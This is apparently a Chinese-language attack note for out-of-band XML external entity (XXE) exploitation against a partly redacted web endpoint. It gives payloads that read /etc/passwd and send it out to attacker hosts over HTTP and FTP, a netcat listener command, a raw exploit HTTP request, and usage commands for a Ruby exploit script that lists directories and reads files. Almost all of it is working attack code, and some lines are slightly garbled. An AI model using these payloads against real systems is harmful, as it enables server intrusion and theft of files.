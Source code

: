 # POST的payload

```
<?xml version='1.0' encoding='UTF-8' ?>
<!DOCTYPE foo [
<!ENTITY % b SYSTEM "file:///etc/passwd">
<!ENTITY % asd SYSTEM "http://example.com/lol.xml"> %asd; %rrr;]>
<vxml version="2.1">
<form>
<block>
<prompt>payload executed</prompt>
</block>
</form>
</vxml>
```

# lol.xml文件内容
`<!ENTITY % c "<!ENTITY &#37; rrr SYSTEM 'http://example.com:1337/%b;'>">%c;`

# 攻击者 NC监听

nc -lvvp 1337


## exploit.rb

POST
```
POST /xxxx/CheckInnerUpgrade.ashx HTTP/1.1
Host: i2.xxxx.cn
Accept: */*
Ext-System: MUMU/4.4.4/0/2/3012/3.3.0/1
Ext-User: -1/008796748083554/0
User-Agent: MuMu
Content-Type: text/xml
Content-Length: 653
Connection: close

<?xml                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               version="1.0" encoding="UTF-8"?>
<!DOCTYPE hack [
<!ENTITY % xxe SYSTEM 'http://xx.108.xx.227:81/

'>
%xxe;
%param1;
]>
<hack>&exfil;</hack>
```

修改exploit.rb 的#{ARGV[0]，为想要读取的目录

`payload = "<!ENTITY % file SYSTEM \'file:///'><!ENTITY % param1 \"<!ENTITY exfil SYSTEM \'ftp://34.141.59:25/%file;\'>\">"`

命令1： 列目录
ruby exploit.rb  /

命令2：读文件
ruby exploit.rb  /etc/passwd
